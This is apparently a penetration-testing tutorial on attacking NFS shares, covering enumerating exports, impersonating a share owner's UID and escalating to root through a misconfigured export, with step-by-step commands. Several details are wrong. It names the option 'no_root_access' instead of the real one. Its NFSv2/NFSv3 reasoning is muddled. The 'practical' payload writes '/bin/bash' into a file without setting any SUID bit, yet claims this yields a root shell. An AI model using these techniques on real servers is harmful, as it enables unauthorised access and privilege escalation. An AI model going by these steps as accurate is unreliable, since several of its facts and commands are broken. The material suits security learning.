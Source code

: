 # Network File System

Network File System (NFS) is a client-server file-sharing protocol used across Unix systems. NFS enables remote clients to access resources on a network's file system and mount shares, a process by which remote network resources, such as a directory, are attached to a mount point on the file system.
```
sudo mount -t nfs <IP_ADDRESS>:/<SHARE> <MOUNT_POINT>
```
## Enumeration

Exported directories are directories made available by the NFS server to NFS clients for access and mounting. With the following `showmount` command, you can view available exported directories on a particular NFS server.
```
showmount -e <IP_ADDRESS>
```
Alternatively, you can view shares the NFS server is configured to export and share with clients.
```
cat /etc/exports
```
Shares that are currently mounted on the file system are stored. If no proper authentication or authorisation mechanisms are used, these shares can be exploited to escalate privileges or to exfiltrate sensitive information. 
```
cat /proc/mounts
```

## Exploiting NFS
### Bypassing UID permissions

Older NFS versions such as `NFSv2` and `NFSv3` lack robust authentication and authorisation mechanisms and can be easily bypassed to gain unauthorised access to shares on the file system or privileged access.

`NFSv2` authenticates users with UID, GID and group memberships. Therefore, it is possible to access an NFS mount by impersonating the UID of the mount owner. You can accomplish this by mounting a directory to the target using `NFSv3`.
```
mount -o vers=3 <IP_ADDRESS>:/<SHARE> <MOUNT_POINT>
```
```
ls -n
```
With `NFSv3`, you can view the UIDs of mount owners; therefore, once you have retrieved the UID, you can remount to the NFS export with the UID of a particular mount owner and gain access.  
```
sudo useradd -u <UID> <USERNAME>
```
```
su <USERNAME>
```
### Exploiting configurations

Root squashing is an NFS feature that restricts the privileges of a root user by assuming all root users as low-privileged users. Root squashing is enabled by default; however, some networks may require remote root access and specify the `no_root_access` option in the NFS server's configuration file.

With this option configured, you can create a directory on your local machine as the root user, mount it to the file system, and you will notice that the mounted directory will be owned by the root user on the file system.

You can then create a "/bin/bash" payload file with the SUID bit enabled so that when run on the NFS file system, a root shell will be spawned on it.

## Practical
Enumerate the target system to reveal shares.
```
cat /etc/exports
```
Mount a directory to the `/tmp` directory.
```
sudo mount -t nfs 10.10.3.3:/nfsprivesc /tmp
```
Create a file with root privileges inside the mounted directory on your attacking machine.
```
echo '/bin/bash' > escalate
```
On the target machine, run the file to escalate privileges.
```
./escalate
```
